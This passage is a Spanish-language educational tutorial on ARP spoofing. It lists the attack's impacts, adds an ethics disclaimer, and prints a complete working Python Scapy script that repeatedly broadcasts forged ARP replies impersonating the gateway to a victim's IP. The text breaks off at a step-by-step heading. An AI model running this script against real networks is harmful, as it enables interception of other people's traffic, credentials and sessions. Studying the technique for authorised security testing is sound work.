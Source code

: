 3. **Impacto**:
   - Intercepción de datos sensibles (contraseñas, sesiones, etc.).
   - Redirección de tráfico a sitios maliciosos.
   - Denegación de servicio (DoS) al interrumpir la comunicación.

### **Consideraciones éticas**:
- **ARP Spoofing es ilegal** si se realiza sin autorización en redes que no te pertenecen. Solo debe realizarse en entornos controlados, como pruebas de seguridad (pentesting) con permiso explícito.
- Este tutorial es educativo y está destinado a comprender la técnica para fines de seguridad.

---

## **2. Análisis del Código**

El código utiliza la biblioteca **Scapy** en Python para realizar un ataque de ARP Spoofing. Vamos a desglosarlo línea por línea, explicando qué hace cada parte, su propósito y cómo contribuye al ataque.

### **Código Completo:**
```python
from scapy.all import ARP, Ether, sendp, get_if_hwaddr, conf

# Definición de la IP de la víctima y el gateway
objectivo = "192.168.1.108"  # IP del dispositivo objetivo (víctima)
gateway_ip = "192.168.1.1"   # IP del router/gateway

# Configuración de la interfaz de red
interface_red = conf.iface   # Obtiene la interfaz de red predeterminada (ej. eth0, wlan0)
source_mac = get_if_hwaddr(interface_red)  # Obtiene la dirección MAC de la interfaz

# Creación del paquete ARP falso
arp_respuesta = ARP(
    pdst=objectivo,          # IP de destino (la víctima)
    hwdst="ff:ff:ff:ff:ff:ff",  # MAC de destino (broadcast, para que todos lo reciban)
    psrc=gateway_ip,         # IP fuente (fingimos ser el gateway)
    hwsrc=source_mac         # MAC fuente (la del atacante)
)

# Creación del paquete Ethernet que contiene el ARP
paquete_arp = Ether(dst="ff:ff:ff:ff:ff:ff") / arp_respuesta

# Envío del paquete en un bucle hasta que se interrumpa
try:
    print(f"Iniciando arp spoofing en {objectivo}")
    sendp(paquete_arp, iface=interface_red, loop=1, inter=0.5)  # Envía paquetes cada 0.5 segundos
except KeyboardInterrupt:
    print("Spoofing terminado")
```

---

### **Paso a Paso del Código**
